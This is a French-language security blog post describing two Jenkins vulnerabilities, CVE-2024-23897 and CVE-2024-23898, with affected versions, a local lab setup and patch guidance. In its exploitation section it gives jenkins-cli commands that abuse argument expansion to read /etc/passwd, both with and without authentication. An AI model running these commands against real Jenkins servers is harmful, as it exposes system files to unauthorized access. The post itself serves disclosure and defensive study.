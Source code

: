 # Jenkins : Deux vulnérabilités critiques (𝗖𝗩𝗘-𝟮𝟬𝟮𝟰-𝟮𝟯𝟴𝟵𝟳 - 𝗖𝗩𝗘-𝟮𝟬𝟮𝟰-𝟮𝟯𝟴𝟵8) Exploitation & Correctifs



## Introduction

Les chercheurs en sécurité de SonarSource ont découvert deux failles de sécurité dans Jenkins : CVE-2024-23897 et CVE-2024-23898. Jenkins a été informé de la découverte de ces vulnérabilités le 13 novembre 2023.

Deux vulnérabilités sont expliquées :

* 𝗖𝗩𝗘-𝟮𝟬𝟮𝟰-𝟮𝟯𝟴𝟵𝟳 : 

C'est une vulnérabilité qui permet à un attaquant non authentifié, et disposant de la permission "overall/read", de lire les données des fichiers présents sur le serveur. Sans cette permission, il est possible de lire les premières lignes des fichiers. 

	Versions vulnérables : Les versions antérieures à 2.442 et 2.426.3 LTS

* 𝗖𝗩𝗘-𝟮𝟬𝟮𝟰-𝟮𝟯𝟴𝟵𝟴 : 

󠁝󠀠C'est une vulnérabilité qui  permet à un attaquant d'exécuter des commandes à distance en incitant un utilisateur à cliquer sur un lien malveillant. Elle est de type "cross-site WebSocket hijacking (CSWSH)".

	Versions vulnérables : La version 2.217 à la version 2.441 (incluses toutes deux), LTS de la version 2.222.1 à la version 2.426.2 
	(toutes deux incluses).


  ## Exploitation de 𝗖𝗩𝗘-𝟮𝟬𝟮𝟰-𝟮𝟯𝟴𝟵𝟳


J'ai hosté Jenkins avec le projet Vulnhub disponible sur https://github.com/vulhub/vulhub.

![VulnHub](/images/jenkinslocalhost.png)

* Détection de la vulnérabilité 

![Nuclei](/images/jenkinsnuclei.png)


* Exploitation de la vulnérabilité 

Un utilisateur disposant des identifiants de connexion peut lire un fichier au complet (exemple : /etc/passwd). 

```
java -jar jenkins-cli.jar -noCertificateCheck -s http://localhost:8080/ -auth admin:admin connect-node "@/etc/passwd"
```
![Utilisateur authentifié](/images/jenkins_user_authentified.png)


Un attaquant non authentifié ou sans les autorisations de lecture globales nécessaires, peut seulement lire 3 lignes : Lire la première ligne 

```
java -jar jenkins-cli.jar -noCertificateCheck -s http://localhost:8080/ who-am-i "@/etc/passwd"
```

![POC 1](/images/poc1.png)


Lire la deuxième ligne 

```
java -jar jenkins-cli.jar -noCertificateCheck -s http://localhost:8080/ enable-job "@/etc/passwd"
```
![POC 2](/images/poc21.png)


Lire la troisième ligne 

```
java -jar jenkins-cli.jar -noCertificateCheck -s http://localhost:8080/ help "@/etc/passwd"
```

![POC 3](/images/poc31.png)



## Exploitation de 𝗖𝗩𝗘-𝟮𝟬𝟮𝟰-𝟮𝟯𝟴𝟵𝟴

On installe Jenkins 2.440 qui est une version vulnérable avec Docker.

Les commandes suivantes permettent d'installer et de lancer Jenkins en local.

```
sudo docker pull jenkins/jenkins:2.440-jdk17
```

```
sudo docker run -p 8080:8080 jenkins/jenkins:2.440-jdk17

```

![Dashboard Jenkins 2.440](/images/dashboardjenkins.png)

* Exploitation de la vulnérabilité 


{{< youtube 7Ox6g7S-1ag >}}


## Correctifs

Mettre à jour la dernière version de Jenkins. Un correctif est déjà disponible.

https://www.jenkins.io/security/advisory/2024-01-24/#SECURITY-3314
